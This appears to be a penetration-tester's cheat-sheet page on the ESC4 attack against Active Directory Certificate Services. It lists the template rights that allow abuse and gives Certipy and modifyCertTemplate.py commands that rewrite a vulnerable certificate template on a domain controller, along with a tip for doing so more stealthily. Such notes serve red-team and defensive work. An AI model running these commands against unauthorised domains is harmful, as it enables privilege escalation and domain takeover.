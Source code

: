 ```yaml
---
description: Vulnerable Certificate Template ACEs
---
```


# ESC4

* [https://github.com/cfalta/PoshADCS](https://github.com/cfalta/PoshADCS)

| Right           | Description                                                    |
|-----------------|----------------------------------------------------------------|
| `Owner`         | Implicit full control of the object, can edit any properties.  |
| `FullControl`   | Full control of the object, can edit any properties.           |
| `WriteOwner`    | Can modify the owner to an adversary-controlled principal.     |
| `WriteDacl`     | Can modify access control to grant an adversary `FullControl`. |
| `WriteProperty` | Can edit any properties.                                       |




## Enumerate and Modify Templates

- [https://www.fortalicesolutions.com/posts/adcs-playing-with-esc4](https://www.fortalicesolutions.com/posts/adcs-playing-with-esc4)
- [https://github.com/fortalice/modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate)

Automatically via [Certipy](https://github.com/ly4k/Certipy):

```
$ certipy template -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -template VulnTemplate -save-old -dc-ip 192.168.1.11
$ certipy template -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -template VulnTemplate -configuration VulnTemplate.json -dc-ip 192.168.1.11
```

A stealthier approach is to dump all properties of the vulnerable cert and modify only the needed parts in Certipy's [code](https://github.com/ly4k/Certipy/blob/8e6ac363ddffa81452c41a5162c1107df8934876/certipy/commands/template.py#L35-L53):

```
$ python3 modifyCertTemplate.py -template VulnTemplate -raw megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 192.168.1.11
```
